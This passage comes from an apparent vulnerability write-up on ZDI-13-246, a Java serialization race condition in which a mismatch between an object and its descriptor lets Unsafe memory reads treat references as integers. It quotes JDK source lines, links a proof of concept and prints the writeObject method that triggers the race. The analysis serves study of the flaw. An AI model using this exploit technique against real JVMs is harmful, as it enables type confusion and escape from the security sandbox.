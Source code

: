 This mismatch between the object and the object descriptor is a problem because
the ObjectStreamClass uses the Unsafe class to read values from memory. This
is fine when that descriptor and object match but when they don't match the JVM
can be tricked into interpreting object references as integer values or integer
values as object references :)


[getPrimFieldValues](http://grepcode.com/file/repository.grepcode.com/java/root/jdk/openjdk/7-b147/java/io/ObjectStreamClass.java#ObjectStreamClass.FieldReflector.getPrimFieldValues%28java.lang.Object%2Cbyte%5B%5D%29)

```java
1924                    case 'I':
1925                        Bits.putInt(buf, off, unsafe.getInt(obj, key));
```

[getObjFieldValues](http://grepcode.com/file/repository.grepcode.com/java/root/jdk/openjdk/7-b147/java/io/ObjectStreamClass.java#ObjectStreamClass.FieldReflector.getObjFieldValues%28java.lang.Object%2Cjava.lang.Object%5B%5D%29)

```java
2017                    vals[offsets[i]] = unsafe.getObject(obj, readKeys[i]);
```

Exploit
-------

The POC is available from [Github](https://github.com/benmmurphy/JavaPlayground/blob/master/ZDI-13-246/Ser2.java)

The race condition is triggered by supplying a custom writeObject method for
the class we want to reinterpet. This method will look something like this:

```java
    private void writeObject(final ObjectOutputStream oos) throws Exception {

      final CountDownLatch latch = new CountDownLatch(1);

      Thread th = new Thread(new Runnable() {

        @Override
        public void run() {
          try {
            oos.writeObject(new ShadowInt(latch));
          } catch (Throwable th) {
            // ignore
          }

        }

      });
      th.start();
      try {
        start.await();
        oos.defaultWriteObject();
      } finally {
        latch.countDown();
      }
      try {
        th.join();
      } catch (InterruptedException e) {
        // TODO Auto-generated catch block
        e.printStackTrace();
      }

    }
  }
```
